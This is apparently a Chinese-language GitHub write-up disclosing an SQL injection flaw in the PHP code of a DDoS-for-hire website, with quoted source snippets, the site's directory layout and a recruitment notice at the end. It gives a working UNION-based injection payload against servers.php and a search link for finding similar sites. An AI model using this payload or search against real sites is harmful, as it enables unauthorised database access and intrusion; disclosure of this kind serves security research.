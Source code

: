 # Security
一个小洞洞，不喜欢写很多废话，下面的描述也是。

# 小介绍
无意中在谷ge上搜索到了提供在线DDOS攻击的站点，感觉好好奇哦，这玩意是不是可以改变世界？

URL：http://www.ddos.rip/

这里是测评介绍，感觉挺丰富且价格也不是很贵，然后对于我们这些搬砖的攻城狮而言，花钱是不可能的，一定是不可能的！

# 过程
$SQLCheckLost = $odb -> prepare("SELECT COUNT(*) FROM `users` WHERE `username` = :username AND `email` = :mail AND `scode` = :scode ");
$SQLCheckLost -> execute(array(':username' => $username, ':mail' => $mail, ':scode' => $scode));
$countLost = $SQLCheckLost -> fetchColumn(0);
if ($countLost > 0)
{
function generarCodigo($longitud) {
 $key = '';
 $pattern = '1234567890abcdefghijklmnopqrstuvwxyz';
 $max = strlen($pattern)-1;
 for($i=0;$i < $longitud;$i++) $key .= $pattern{mt_rand(0,$max)};
 return $key;
}

几乎全部的文件都是通过预处理进行SQL传递，这玩意跟注入一直就是死对头，但是在SERVERS.PHP这玩意中没有估计到，虽然也是预处理，但是并没有通过赋值操作。
# Payload

server.php?sv=A1%%23' 将SQL语句闭合，然后你们懂的。
/ajax/servers.php?sv=A1%%27%20UNION%20ALL%20SELECT%20user()%23-- Next You K

# 影响

这样说吧，百分之七十的DDOS在线攻击网站都存在......g
谷x搜索:
https://www.google.com/search?ei=IO0NXaHYIIzdvgT2vq3ABg&q=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&oq=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&gs_l=psy-ab.12...853628.857136..858562...0.0..0.1153.1153.7-1......0....1..gws-wiz.XQGEBD9xDU0


# 结构

```
├─@
├─admin
├─ajax
│  ├─Crypt
│  ├─File
│  ├─js
│  ├─Math
│  └─Net
├─apikey
├─assets
│  ├─images
│  └─user
│      ├─css
│      ├─fonts
│      └─js
├─css
├─fonts
├─images
├─js
├─picture
└─user
```

这种垃圾的架构我也是醉了，虽然我不会ThinkPhp审计......
@ 文件夹主要是Config文件以及全局函数文件
admin 就不说了，此文件夹下也存在着相同的漏洞，但是对于黑盒而言，此漏洞是不存在的，因为TMD的后台根本就不会让你找到
ajax 主要以usercp为主，以及前台登录的login，以及servers
apikey 通过前端获取命令然后通过api向发包机发送指令
下面几个文件夹可以无视

# 么么哒

奇安信(原360企业安全)高级攻防部招聘

红队方向、渗透测试、还有一些你喜欢做的事情.....

usernameandpwd@protonmail.ch
